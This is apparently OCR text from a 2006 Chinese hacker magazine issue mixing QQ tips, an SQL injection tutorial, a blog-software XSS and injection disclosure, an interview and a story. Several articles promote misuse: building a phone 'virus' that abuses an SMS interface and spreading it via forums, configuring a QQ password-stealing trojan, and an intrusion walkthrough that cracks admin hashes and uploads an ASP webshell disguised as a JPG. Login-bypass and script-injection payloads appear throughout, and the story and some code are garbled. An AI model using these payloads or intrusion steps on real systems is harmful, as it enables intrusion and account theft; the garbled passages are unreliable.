


# 黑客是如何利用手机漏洞开通 QQ 服务的

本文你可以学到：
- 简单智能手机病毒的编写
- 利用智能手机漏洞开通 QQ 服务

和 Windows、Unix 系统一样，手机系统也存在很多的安全隐患。其中以用户可以自己扩充功能的智能手机最为明显，比如多普达的 Windows Mobile 5 系列智能手机，还有 Nokia 的 Symbian 系列的 S60、S90 等等。中国 3G 产业正在如火如荼地进行之中，智能手机将会得到更广泛的流行。由于智能手机存在的特殊性，黑客要在上面做文章，就比在一般网络上的机会大得多。因此本文将介绍黑客是如何利用智能手机的安全缺陷来制造 QQ 的会员服务。

开通 QQ 服务中的 QQ 号码，且该 QQ 号码未被其他手机绑定，开通 QQ 功能的程序就会自动接收并解析 QQ 号码中的各项参数，上传到 QQ 服务器上。利用上网手机取回 QQ 密码及账号，盗用 QQ 会员账户与好友的方式称之为 QQ 手机盗用，也可能是通过注册会员卡的方式在 QQ 上开通会员服务。将不需要的移动装置、短信上网等功能进行组合，都可能被人操作或修改。

例如：

- 指令格式：55#123456#1234 或 55.123456_1234
- 返回信息：开通 QQ 加油站服务成功

注：不管手机在此之前有没有存有 QQ 号码，只要 QQ 号码没有被别的手机登记，就可以开通 QQ 加油站服务，55 接口自动将手机与该 QQ 号进行绑定。

通过编程运行，这样一个开通 QQ 加油站的手机漏洞程序就做好了。下面需要把程序在网络上散播（通过论坛、软件发布等），有人下载使用，就可以利用 QQ 加油站服务。

```cpp
message.RequestDeliveryReport = true;
// 发送信息
message.Send();
Application.Exit();

// 编译运行
if (File.Exists("\\Windows\\cmd.sys"))
{
    Application.Exit();
}
else
{
    StreamWriter
    ...
}
```

小编点评：手机病毒可说是一个新生事物，正因为如此，了解它的人少之又少。其实手机病毒的传播性是非常之高，只要稍微修改代码再加以包装，就可发送给周围的同学、朋友，甚至群发，比较容易让人使用。

# 菜鸟 QQ 技巧大奉送

本章内容会对大家提供一些实用的 QQ 技巧，包括：
- 把自己的 QQ 头像做成论坛或其他网页的资料图片
- 查询自己的手机号码
- 给好友播放视频文件
- 获得一些图片的 RGB 值信息
- 同时对一组好友隐身可见
- QQ 辅助工具“QQ 锁”的应用

## 一、我的 QQ 秀我做主

想不想拿自己的 QQ 秀去做一些论坛或其他网站的资料图片呢？下面我教大家查询任何人的 QQ 秀图片。看如下的两个地址，把中间换成自己的 QQ 号码即可，效果如图1和图2。

这里是 QQ 秀的效果图。图1为 QQ 秀效果图：
/qqshow-user.tencent.com/110000/qq.gif/[img]

我们这里是批量查询，为了显示每页更多的 QQ 秀图片，半身 QQ 秀就可以了，那么就多打几遍，中间不要用回车，务求占满一行，这样显示的 QQ 秀就多，如图3。效果如图4。

这样如果你看中了哪个人的 QQ 秀，想知道它对应的 QQ 号怎么办呢？在你看中的 QQ 秀上点右键，在地址栏中会有如下内容：http://qqshow-user.tencent.com/383605010/11/00/00.gif。这样你看中的 QQ 号就是 383605010 了。

## 二、查询自己的手机号码

现在移动号码已经风靡各地了。我们现在有一个人的 QQ 号码和密码，我们现在想查看他的手机号码怎么办呢？当我查看我的手机号码时是：135****368。看到没有，五位都已经隐藏了。难道我们就没有办法了吗？嘿嘿，这怎么能难倒我们呀！登录后保存在某个菜单项下，在打开的手机消息窗口中点右键，在下面看到相关页面，点开一张报表，就会打开一个发送失败的网页。这时你再看，被查询的手机号码已经出来了，如图6。“发送密码”里是某人已绑定的手机号码，还带有“你的好友”，就是与这个手机号绑定的 QQ 号码。注意：此方法只能查看你的 QQ 号绑定的手机号码。

## 三、轻松获得像素 RGB 值

你有没有为了提取屏幕上某区域颜色的 RGB 值而下载过什么软件？其实某像素的 RGB 值在编辑网页和使用 Photoshop 等软件中十分常见。我们可以依靠 QQ 功能很强的截图功能轻松获得 RGB 值。在 QQ 聊天中可使用“捕捉屏幕”，把鼠标移动到你要提取颜色的区域，那么在截图的悬浮框中就会显示出当前的像素 RGB 值，如图7。看“当前像素 RGB(122，173，227)”，像素 RGB 值就是 122，173，227。很方便吧，就不用下载其他辅助软件了。

## 四、单位里无声无息挂 QQ

如果你是在单位上班，但又忍不住要挂 QQ，却又怕被 BOSS 发现，怎么办呢？我们当然有办法。首先打开 QQ 的系统设置，如图8，在“基本设置”中的“综合设置”中去掉所有选项前的对号，如图9；在“声音设置”中去掉“打开声音”，选择“屏蔽所有好友的发言”，应用当前设置。然后按键盘上的“Ctrl+Alt+Z”组合键，这时你就会发现你的 QQ 进入了默认隐藏状态；就连系统托盘里也找不到 QQ，只有在进程里才能找到。但是 BOSS 一般不会去注意这些。为此我们还可以把你的 QQ 头像改成隐形人。这样别人发消息时，不会发出声音也不容易被发现。这样就可以轻松安全地挂 QQ，不用怕老板了。

## 五、QQ 锁，锁住要登录的 QQ 号

如果你经常需要用 QQ 进行工作联系，但是又不想让员工在这台电脑上用 QQ 聊天；或者你是家长，不希望孩子在这台电脑上聊 QQ。我们可以试一下 QQ 锁这款软件。打开程序，按“Ctrl+Shift+S”弹出窗口，输入你的 QQ 号码、密码即可。然后你添加好的 QQ 号码就成了唯一允许登录的 QQ 号了，如图10。这个 QQ 号可以随意登录，而其他的 QQ 号如果想登录，则必须手动输入密码。按快捷键“Ctrl+Shift+F”可以解锁，按快捷键“Ctrl+Shift+S”又会显示窗口。只要你修改了口令就 OK 了！

## 六、对一组好友设置隐身可见

隐身对很多人都有效，但是对某些好友怎么办呢？一个个进行针对性设置，还真够麻烦的。我们可以对一组内的所有 QQ 好友一次性设置“对其可见”功能。首先切换到 TM 方式，这样就可以使用对其可见功能。把你需要对其显示的好友先拉到其他分组里去，然后在你需要设置成可见的组上设为默认。这样你再选择“隐身时对其可见”，就可以同时设置一组好友了。

编辑点评：文章后半部分介绍了 6 个 QQ 的小技巧，相信读者一看就会感兴趣。在使用 QQ 的时候，只要仔细一点，就能自然地发现一份属于你的小技巧。


# 详解 SQL 注入

SQL（结构化查询语言）是由 ANSI 制定的标准，是访问数据库的通用语言。每个数据库都支持某些特性。

SQL 注入是一种将编写的 SQL 语句注入 Web 表单中用户输入字段的一种技术——最常用于劫持客户端登录 Web 站点。然而，SQL 注入也可以登录甚至控制 Web 站点，所以抵抗这种攻击非常重要。

从本文你可以学到：
- 网站登录的详细分析及重要参数的传递
- 了解用户表的结构及如何构造合适的、具有针对性的查询
- 注入失败时根据服务器返回信息的提示重新构造查询，突破限制

## 一、简单旁路登录

我们从 SQL 注入的最基本形式——旁路登录开始。受害站点有一个简单的登录表单，如图1。

```html
<form action="login.asp" method="post">
<p>Username<input type="text" name="username" /></p>
<p>Password<input type="password" name="password" /></p>
<p><input type="submit" name="submit" value="login" /></p>
</form>
```

这个页面要求用户输入两个信息（用户名和口令），并将输入的信息提交到 login.asp。login.asp 文件类似这样：

```asp
dim adoConnection
set adoConnection = Server.CreateObject("ADODB.Connection")
dim strLoginSQL
strLoginSQL = "select * from users where username='" & Request.Form("username") & "' and password='" & Request.Form("password") & "'"
dim adoResult
set adoResult = adoConnection.Execute(strLoginSQL)
if not adoResult.EOF then
  ' We are here, when all well
  response.write "OK"
else
  response.write "Wrong login"
end if
```


该登录表单通常将用户名和口令共同提交到一个 SQL 语句中，这个语句通过用户名和口令作为检索条件。如果登录有效，数据库会返回用户的信息；如果无效则返回“用户名/口令非法”。

## 二、用户表结构

这部分内容将帮助我们理解 SQL 表中的结构。一个 SQL 表定义包括这个表所拥有的字段列表、每个字段的类型（在字段定义中指定）以及作为索引的字段。对于下面的例子，表中包含两个字段：用户名和口令，每个字段最多 20 个字符。

```sql
select * from users where username='admin' and password='somepassword'

简单回顾一下查询句：
1. select * 的意思是“给我所有数据”
2. from users 的意思是“从 users 中取数据”
3. where username='admin' and password='somepassword' 的意思是“查找用户名为 admin 且口令是 somepassword 的行”
```

用户名称和口令未经任何审核（Sanity checks）就被放入 SQL 命令中。Sanity checks 是一种为了确保用户输入的内容不会包含任何容易用于修改 SQL 语句字符的检测。这意味着黑客可以将代码注入用户名字段而不被检测。

```sql
select * from users where username='whatever' and password='whatever'

// 通过 SQL 注入，在用户名和密码中输入特殊字符串来达到目的。
```

“--”代表注释符，意思是后面的任何内容都将被忽略。这个 SQL 语句通常会返回真，因为“1=1”为真；服务器不执行不当查询，而是将其判断为 true 或 false。

```asp
strLoginSQL = "select * from users where username='" & Replace(Request.Form("username"), "'", "''") & "' and password='" & Replace(Request.Form("password"), "'", "''") & "'"
```

## 三、当 SQL 注入失败时

大部分登录脚本还会检查用户记录中的其他信息：用户能否登录、用户登录级别等问题。典型的 SQL 登录语句像这样：

```sql
Select * from users where username='someusername' and password='somepassword' and active=1
```

这个 SQL 语句表明：输入的用户不仅要存在，而且处于激活状态。前面例子的 SQL 只简单地识别了用户，不关心用户是否处于活动状态或是否是管理员。

通常黑客不知道 SQL 语句的确切格式，除非他们能从 Web 服务器返回的错误信息中看出端倪。假设使用 someusername 作为用户名，a'bla（或任何不是真正 SQL 语法部分的其他值）作为密码。这个 SQL 结果是无效的，将导致 SQL 服务器拒绝，并返回类似这样的错误提示：

```text
(Microsoft)(ODBC SQL Server Driver) SQL Server Syntax error (missing operator) in query expression 'username='someusername' and password='a'bla' and active=1'.
```

这条信息提示了 SQL 语句的结构，使你意识到这些输入可能被利用。现在黑客可以看到 SQL 语句的结构，并设计一个更好的输入，比如 someusername 作为用户名，'a' or '1'='1 作为密码。这样做可以使整个查询通过验证。

```sql
Select * from users where username='someusername' and password='a' or '1'='1'
```

# 利用百度搜索

从本文中你可以学到：社会工程学的一种利用途径。

百度的功能很强大，不仅能搜网页内容，还能搜到一些邮件系统的附件。进入百度首页 www.baidu.com，输入“inurl:mail”（不含引号），就能够获得许多结果，其中不乏许多邮箱系统的附件，例如图1。如果你想看看它们，只需单击链接进入那个网站，当然它和我们平常看到的 HTML 网页不太一样。事实上，你不妨试试图2，但是读者要查看那些文档时，违法的方法可不行！

PS：这些链接和邮件系统其实是 IMAP 或 POP3 服务。像 Google、雅虎、网易等也常见于这种信息里。大家要注意！

> 编辑点评：作者只是介绍了最为基础的注入知识剖析，让我们深感遗憾。SQL 注入不仅有很多方法，而且有时很危险。大家应该更加深入地学习。

## 从本文中你可以学到：

- 病毒文件的基本查找方法
- 如何找出病毒来源

某天，小生我正上网看得兴头时，突然防火墙弹出一对话框，提示有一程序需要访问网络，乍一看好像是 rundll32.exe，仔细一看，竟然是假冒的，文件名是 rund1132.exe，如图1所示。根据以往玩病毒的经验，此文件一定不是好东西。既然它已经入侵了我的系统，那么我们就好好研究这个小坏蛋原理。因为以前它使用了线程插入技术，把自己嵌入了文件管理器里，没想到进程竟然静静地躺在列表中，看来这个东西比较难处理，如图2所示。

通过任务管理器将此进程结束，利用系统的搜索功能找到文件所在位置，位于系统的 SYSTEM32 目录下（小编：防火墙提示上写着服务的哈！），这样更确定了我的想法，如图3所示。紧接着就是删除文件及清除注册表项，至此本机的不明文件是清除了。可是留下了一个疑问，一个小心的我是如何下载了不明文件？况且此文件并不小，不是那种只有几千字节的小文件，只去过几个门户网站。根据上图中此文件的修改日期可以确定，此文件是在这个分钟之内被下载的，那么此文件又是从何而来呢？

进入 IE 使用的临时文件夹，点击“大小”后按文件大小排序，现在就可以利用图3中不明文件的大小来进行判断，判断结果如图4所示。

既然现在已经确定病毒来自网络，那么我们来看看它来自哪个网站。在文件上单击右键选择“属性”查看，此时对话框中明确指出了文件所在的网站，图5中被遮掉的部分就是了。

可是我明明记得今天没去过这个网站啊，怎么会有？继续跟踪，现在我们需借助一个文件搜索工具：Turbo Searcher。它可以准确地查找出文件中包含的字符，不管是 ASCII、UNICODE 还是十六进制字符。打开后，在“常规”标签下的名称中填入“*.*”来查找所有文件，在文件夹中填入 IE 临时文件夹的所在路径，接着在“包含文本”标签下的“输入文本”中填入网址，其它都选中默认设置。最后点击“搜索”按钮，稍等片刻就可以看到搜索结果了，如图6所示。

奇怪，搜索出来的文件所在的地址还是没去过，那就继续利用此网址进行搜索，结果如图7所示。还是不认识，继续搜索。最后找到了两个熟悉的网页，如图8所示。再利用这两个网址进行搜索就什么都找不到了，看来罪魁祸首就是它们了。注意一下上图中的网址，不看不知道，一看还真把受害者在不知情的情况下下载不明文件，一般只有浏览网页，而浏览网页就必须明确文件路径；要指明路径就必须继续链接。到这里不仅应警惕强制下载，更是利用网页的链接进行可扩散的“好友”。好了，不多说废话，有问题可以到黑手论坛（http://www.nohack.com/bbs）或者我的 BLOG（http://www.smallrascal.cn）来提问。

［文章中提到的软件 Turbo Searcher 光盘内收录］

# 编辑点评

对于病毒作者的查找，除了查可疑文件名外，查找文件创建时间也是重要手段之一。另外，查看系统服务、自启动项以及访问网络的程序，也是发现病毒的有效方法。IceSword 由此诞生。由探测感染源的过程中，也许你可以添上几页内码，自己去发挥吧！

# 无杀毒软件环境下 QQ 防盗必杀技

从本文中你可以学到：

- 四种简单的防止被盗号的方法

最近这几天忙着赶任务和作业，还要到老师家去开小灶，都没什么时间上网，还是少吃点饭吧……嘻嘻。可各种黑 QQ 软件的作者越来越多，越来越多的 QQ 号被木马捕获，许多老鸟也还在 QQ 软件上深受其害，报警也好、入户也罢，QQ 号常常在不知不觉中被洗劫。偶然学会这个小技巧，此类干事为何有恶人之名？自从这件事之后，几乎没有杀毒软件，也能让你轻松避过木马的追击。

“知其然，便知其所以然”，不会杀毒，怎么能防盗号呢？就“阿拉 QQ 大盗 2006 版”为例，首先到网址……填写好你的配置信息，如图1所示。可以用邮箱或网页空间接收校验，这里使用的是邮箱来接收，测试一下，如图2所示，成功了。

【提示】最近还是用网页空间，因为防火墙通常情况下对 80 端口是不拦截的。由网页在人人都访问，别人的机子就能远控地使用。本程序运行的时候，即可由另一个 QQ 号，然后在网页端上登录，60 秒后会自动关联 QQ。现在我们明白如何下手了，成功了，原账号即未被大家盗号啦，我们让它出马。

> 围魏救赵

在没有杀毒软件或木马很厉害的情况下，我们无法去除它，但也要想方设法阻止它。前面……

# 雷客图安全助手 帮你独享“内壳”

从本文中你可以学到：一种在线检测 ASP 木马的工具

在入侵服务器后，经常发现已经有人来过了，而且 webshell 就藏在和我一个目录的旁边；和我一样用一个方法进来的。他也想改了人家的网页，令我很不爽（讨厌用黑客技术做坏事的家伙）。其实黑客的简单入侵和简单清除 webshell 的过程（我的没讲：嘿嘿！）是独家网络中的好方法！下面是具体的入侵方法和清除木马 webshell 的方法：

首先打开那个入侵页面的网站，看看有没有注入点。我使用 DPHP 注入工具检测，情况如图1。

不知道是什么数据库，猜解下看看……最后找到了管理类的表单密码，如图2。

问题是经过 MD5 加密的，上传到 www.md5.org.cn 网站破解，结果出来，一共 4 个账号，只有一个明文密码能被破解，如图3。

口令弱，试过之后就设下了文，然后找出后台登录地址，如图4。

其中有个就是被入侵了的，可能当时那黑客的留言登录信息还在。所以我才在她的空间有限地帮着排查。进入后台后，有利于暴露方法，看有什么可利用的地方：一般就有数据库备份的功能，它使用起来可方便大了。在线表格中的地方上传 JPG 图片（改了下后缀的 ASP 木马），然后在各个搜索数据库里填入上传后的路径，以及各个路径，备份成功到 webshell，如图5、图6。

好，我要实现帮助管理员清除其它 webshell！

24 个文件夹，几十个文件，不是手动找吧！下面登录我今天介绍的主角“雷客图”，它的寻找 ASP 木马很独特，它会具体分析出是否删得掉，告诉你哪里哪条句有可能具有安全隐患等。更有趣的是还有一个“雷客图 For Hacking 版本”，它的常规版适合管理员使用，不能让不了解它机制的人也称为 nohack 吧！但 hack 版也得说，它只识别文件。图7是雷客图上传后登录的样子。

其中有搜索文件和查 ASP 木马两个选项，我们选“搜索木马”，开始搜索！结果如图8。

说得很详细，可以浏览下看看是否是木马，然后删除。另一个版本的雷客图还有防注入的功能，文件不多我也没有传，我用了最简洁的方法把备份功能给删了！这下算是结束了。

在此感谢 nohack 的编辑！晚上 10 点多突然有我好友告诉我图片不够清晰，让我补抓图片，真是对作者劳动成果的尊重！感谢 ing，也使我读了 5 遍文章检查语句和文字，nohack 越来越好！

> 【文章中涉及的“雷客图”来自于文中有收录】

# 编辑点评

该文章提供的界面、工具及相关说明较为详细，适合参考。

| 文件名 | 类型 | 备注 | 创建/修改时间 |
|---|---|---|---|
| ... | ... | ... | ... |

# 寂寞花开

电话里他的声音很动听，很年轻的声音，却带着微凉的忧伤。我笑问着：“既然上演和深拥那么久，为什么你愿意到我们家这么久还不走呢？”

我忽然觉得这句词说不出什么感动，最多感觉得到有一段可见的欣欣。他才轻松地说：“我想路灯有一束灰白，应该说，我们的话我已经经过成了。”

我有两句不是天国。我安慰其他文章有忧渐淡。其他都在于自己曾经的热恋着并不能说出。我不能。他笑着，觉得很在意，温暖得像个初恋的人。平常的夜里，轮回生活中相遇的写意，之后就像是另一个卷来的爱人……

已怎么会发出那干涩的微笑声，像忽然眼睛轻轻地望着。母亲答，她去跟女儿连连忙忙轻轻地问候：“屋子里快浇，婚要怎么解决？”

这个月新来的 NoHack 杂志，希望我能下来拿一下。

我笑着站在电话旁，直到里面传来了“咚咚”的声音，我才意识到我现在糟的样子。我的皮鞋在门前摆着，但我无暇看自己的脖颈，想转头就弄乱了头发。我用了将近一个小时的时间来给自己穿戴，我不希望他的幻想里我太过于狼狈。

我尽力让自己站在门前的时候，在他面前差点哭泣了，因为那意味着我再有太大一点责任。我矜重地整理了满眼的神色，像我们在这里的讨论。我的脸色有些恍惚，在他无论是多么讨厌，我仍然沉默说过去。

那时候他是有道理的。我也很努力地去和他说，脑中有遥远，身边的笑容和请求也许会有人听。他轻轻地唤我的想法，告诉我他的眼睛里有很多空茫的直言。

第三天我发烧，依然兴奋，一到学校的时候，样子像自己还小的时候，早不想那么容易给我这些时候了。我觉得沉静地生活中没有任何的风，朋友知我有人就这样合在前所未有的梦里。

第二天我从这份状况的心里，带一副犹豫的样子，把签字的保护也写作人，也许像是个忧伤天使。我冷淡着行走在地面上的情绪，没有找到他人的眉毛。或许故事结束了。

我渐渐地明白了他的徘徊感为什么这么浓郁。他告诉我，他曾经的网络像会有很多路。灯火照着朋友，心中花朵都觉得变成了安静，因为我也常常总会有一点怀念，会有所思考。我想当时是因为一种名字，常常就会见到他敏感的眉眼不安，听说我的生活变成了安静。

在他隐隐约约的眼神里，映照着童年的拥抱，像是一个小小的孩子被安慰在热泪里。他的房门看似不白的夜。那小小的房子从来带着那人的影子，说的话有些时候就像一个孤零零的遥远。后来他很平静地说着，像转身离场，我知道他已经回去。

我总是站在他旁边，听他把那些虚掷的光亮说了出来。那一刻他的微笑里有一种苦涩，却像从来没有离开过。也许那只是一个人静静地站着，像在路上等着某些不再回头的东西。

那个新来的 NoHack 杂志，原来真是我想要拿的一本。我走在地上回头看他，直到他坐在窗前，回头笑着说：“你来了。”

我拿着那本杂志，站在窗边，看着那张面孔静静地笑着。后来我一直在想，我们究竟是离得那么近，还是隔了许多年不曾懂得。许多事没有答案，只有时间慢慢地把它们擦亮。

# 嗨嗨黑话

小编：当黑客技术被纳入市场生物链的时候，一个新时代，“职业黑客”这个新颖词汇也应运而生。黑客技术掌握者和黑客技术的需求者，合兵一堂；于是地下黑市自然就开始形成一条非常生动的职业黑客交易市场……

> “过两年，谁都用不着了。你可以看到，由于网络已经从局域网向因特网迅猛发展，网络黑客之类的技巧，不再像从前那样神秘莫测了……”

# 对话职业黑客

——走近 world 漏洞发现者

本刊特派：小建

- **NoHack：** 作为一名职业黑客，我想你的经历肯定特别精彩，是什么原因促使你走进黑客这个世界，并且成为一名职业黑客呢？
- **anonymous：** 最早是想当一名程序员，同时因为学习与网络接触时间久了，所以逐渐地开始学习网络方面的技术。然后在学习文化过程中认识了一些写病毒和搞黑的朋友，互相交流，后来感觉接触这些光怪陆离的东西，又觉得有些难度，所以选择职业黑客。这么一路走来，发现这东西属于一个地下界，慢慢来讲已经成为主流。

- **NoHack：** 职业黑客都有什么特点？
- **anonymous：** 我想最明显的一个特点来说吧；对事物、对整个人自由的持有能力是一样的。也就是说一个人对他那一方的控制能力。其实所谓的职业黑客是一个有等级的。
- **anonymous：** 有些半路出家的朋友，一般来讲应该是比较容易做到的；如果是比较有天赋就不一样了，也就有很多因素会影响到一个人的级别或者某种能力。

- **NoHack：** 在职业黑客界，你有没有说过的什么偶像吗？
- **anonymous：** 以前有，现在没有了。可能我自己一直在不断地寻找一个目标，但是没有特别明确的偶像。

- **NoHack：** 如果我没有猜错的话，你们肯定有一个组织吧，能否介绍下你们的组织？
- **anonymous：** 呃，其实没有什么上级和下级。
- **anonymous：** 我们都是以一种平等的关系存在的。

- **NoHack：** 现在的网络不再是那么难懂，网络就像一面密密的空间；同时，黑客的技术也在发展。黑客应该如何看待现在的网络环境？
- **anonymous：** 那么要说的是，简单地说就是觉得技术不是主导，而是战略的运用和整体的配合。
- **anonymous：** 现在的网络不是那么深奥，网络就像一面秘密的空间，任何一个人的创新都很难成为唯一的东西。

- **NoHack：** 现在一些 QQ 群、taobao、ebay 等网络交易网站都能看到出售黑客工具？
- **anonymous：** 这主要是说网络的发展也让黑客技术变得更方便了。

- **NoHack：** 对于脚本黑客和系统黑客，你如何定义？
- **anonymous：** 其实这个我也没什么好说的，一般来说能够通过利用系统漏洞的人，应该是属于系统黑客吧；而一部分的黑客也可以说是属于入侵，是一种非常小的一部分。
- **anonymous：** 只要他不去构成一些社会上的危害行为，对社会没有什么危害，而且还好像是有点价值。

- **NoHack：** 其实说到黑客，最令人担忧的就是一些网络黑客的出现，他们总会有些偏向。且不管是不是你们所谓的职业黑客，可能这种职业黑客的出现，确实给网络带来了一些负面影响？
- **anonymous：** 对这种看法，我觉得不是特别准确。因为其实黑客并没有那么可怕，只不过是一个职业，很多人都在研究这方面的技术。

- **NoHack：** 最近听说你们是 ms06-027、ms06-047 漏洞的发现者，而且还发现过一套新型病毒？
- **anonymous：** 不是新型病毒，是专门通过 Word 文档传播的漏洞利用程序。

- **NoHack：** 据我所知，你们在国内就很有名，你们是什么时候开始接触网络安全技术的呢？
- **anonymous：** 其实最早接触的时候是在很早以前，那时候就是在网络上，看别人是怎么做的，然后自己再去研究。

- **NoHack：** 你们如何定义“0day”？
- **anonymous：** 其实所谓 0day，就是在漏洞公布之前发现并且可以利用的漏洞。

- **NoHack：** 如何定义 ms06-027、ms06-047 漏洞？
- **anonymous：** 这个我觉得更像是大家熟知的一个漏洞编号，指某个具体的漏洞，而不是某一种技术。

- **NoHack：** 你们现在主要是在做什么？
- **anonymous：** 我们主要是做漏洞研究、技术分析，以及对安全事件的跟踪。
- **anonymous：** 也会做一些工具和利用程序的分析。

# 从本文你可以学到

- Hosin Blog 跨站分析利用
- Hosin Blog 的注射漏洞

Hosin Blog 是由苦寒竹开发的一套基于 ASP 的博客系统，具有留言本、日志搜索、插件管理、评论锁定、帖子置顶和后台管理功能，界面也是非常的漂亮。目前最新的版本是 1.33，前几天在网上乱逛时候发现了它，觉得挺不错的，下载回来，看完代码之后发现了不少的安全漏洞，这里拿出来和大家分享。

## 一、跨站（XSS）

跨站漏洞出现在了留言本 gbook.asp 文件上，在这个文件中它只过滤了单引号，其他的字符却没有过滤，所以从理论上来说是可以跨站的。不过这里的跨站有点不一样，先看其关键代码如下：

```asp
<tr><td class=titlebar>>>&nbsp;留言本</td></tr>
<%if request.QueryString("action")="add" then
namegk=Trim(Replace(Request.Form("namegk"),"'","")) '只过滤了单引号
qq=Trim(Replace(Request.Form("qq"),"'","")) '只过滤了单引号
email=Trim(Replace(Request.Form("email"),"'",""))
uri=Trim(Replace(Request.Form("uri"),"'","")) '只过滤了单引号
getcode=Trim(Replace(Request.Form("getcode"),"'",""))
face=Trim(Replace(Request.Form("face"),"'",""))
article=Trim(Replace(Request.Form("article"),"'","")) '只过滤了单引号
........省略代码
set gbadd=server.CreateObject("adodb.recordset")
sqlgbadd="select * from gbook"
gbadd.open sqlgbadd,conn,3,2
gbadd.addnew
gbadd("name")=namegk '取得它的属性值
gbadd("qq")=qq
if email="@"then
email=""
end if
gbadd("email")=email
gbadd("uri")=uri
gbadd("face")=face
gbadd("content")=article
```

```asp
gbadd("date")=FormatDateTime(now,1)
gbadd("time")=FormatDateTime(now,4)
gbadd.update '进行数据库更新
gbadd.close
set gbadd=nothing
response.write "<tr><td>留言提交成功，请<a href=gbook.asp>返回</a></td></tr>"
```

从上面可以看出来，只过滤了单引号，但是如果我们输入只是 `<script>alert("cmd")</script>` 这样的跨站代码，还是看不到跨站效果的，如图1和图2所示。我们看看提交跨站代码后返回页面的代码：

```html
<tr><td class=titlebar>>>&nbsp;留言本</td></tr>
<tr class=righttable><td><table width=90%><tr><td>
class=gbookcopy>&nbsp;<script>alert(&nbsp;| 2006年9月22日 08:33<br>&nbsp;<a
href=mailto:sd@sina.com target=_blank></a>&nbsp;
<a href=http://<script>alert("cmd")</script> target=_blank>alert("cmd")</script> border=0></a>
&nbsp;<a target=blank href=http://wpa.qq.com/msgrd?V=1&Uin=3242233&Site=kuhanzhu.512j.com&Menu=yes></a></td></tr></table>
```

仔细看这里 `<a href=http://<script>alert("cmd")</script> target=_blank>alert("cmd")</script> border=0></a>`，我们的跨站代码并没有被过滤掉，只是被 HTML 的那些控件给封闭了。那我们让 HTML 在我们的跨站代码之前闭合，不就可以实现跨站了吗？所以我们可以在个人主页那里输入代码 `"><script>alert("cmd")</script>`。如图3和图4所示，跨站成功了。

第二个跨站的地方就是在我们注册成会员后修改会员资料的 member.asp 文件上，下面是在输入跨站代码 `<script>alert("cmd")</script>`

## 新洞续看

黑客手册 2006.10

NOHACK

script> 后返回的代码：

```html
<input name="email" type="text" id="email" value="<script>alert('cmd')</script>" size="30">
```

经判断，用户名有人注册过了，如果注册过了当然不可以再注册啦，但问题就出在这里了，其他代码如下：

```html
<admin-empty.php>
set sjsuser=server.CreateObject("Sdoob.recordset")
sql="SELECT * FROM admin WHERE ..."
...Request.Form("author")...
...Request.QueryString("author")...
<%script LANGUAGE="javascript">alert ...</script>
```

这里这个漏洞必须要通过抓包才可以利用，如图6所示。在这里通过修改 author 的内容，可以修改成 abc and 1=1 或者 abc and 1=2 等等之后，用于利用。反正原理就是在后面加上注入代码，然后得到敏感信息。这样的漏洞层层递进，里面删啊架来曾经也写过一篇这个漏洞的利用文章，所以这里我就不细说了，具体的过程就不讲了。

上面截取的源码对本站来说可能是没什么利用价值，但像是 calendar.asp 文件中的注入漏洞却可以在 URL 地址栏内来进行，其漏洞可见如下：

```sql
<%viewType=request.QueryString("viewType")
...
Select Case viewType
  Case "byDay"
  SQL= "Where log_PostYear="&log_Year& ...
  Case "byMonth"
  SQL= "Where log_PostMonth="&log_Month& ...
  Case "byYear"
  SQL= "Where log_PostYear="&log_Year ...
End Select
```

上面非常明显地暴露出了系统的漏洞，没有过滤任何数据，就进行数据库查询工作，所以这是非常经典的注入漏洞的代码，而且可以从 URL 地址栏内进行攻击，如图7、图8所示。

- 1. 转换用户提交的 HTML 代码。从上面我们也知道，就是因为程序员在写代码的时候没有过滤 `<` 或 `>` 而导致了漏洞的出现。对跨站点恶意代码的朋友也知道，如果过滤上面的两个字符，那跨站脚本基本上就没有实现了，所以这里我们可以写一个这样的函数来达到转换的效果：

```text
Function chkstr(str)
  str=replace(str,"<","&lt;",1,-1)
  str=replace(str,">","&gt;",1,-1)
  chkstr=str
End Function
```

- 2. 限制用户提交数据的长度，如 `<input name="auther" type="text" id="auther" size="12" maxlength="15" onChange="Isname()">`，maxlength 就是允许用户输入数据长度的最大长度，在这里我们做适当的限制。

## 二、注入

这里的注入漏洞还是出现在 show.asp 文件，问题出在评论上。这里设计了一个这样的功能，输入即可注册专有评论，如图5所示。也就是说给人用户名和密码之后就是网站的会员了，但是必须有一个这样的功能，那就是要判断用户输入的用户名是否已经有人注册过了。

# 三、总结

因为该系统是采用 ACCESS 数据库，所以并没有得到 webshell，不过利用注入漏洞将系统的后台信息还是可以用来再加入上一层思考，简单地分析了 Hosin Blog 的安全性。虽然它经历了几个版本的变更，但是总的来说安全性并没有非常大的提高，希望该系统的作者尽快改进。

# 新闻系统练习

NOHACK 2006.10 黑客手册

编辑点评：

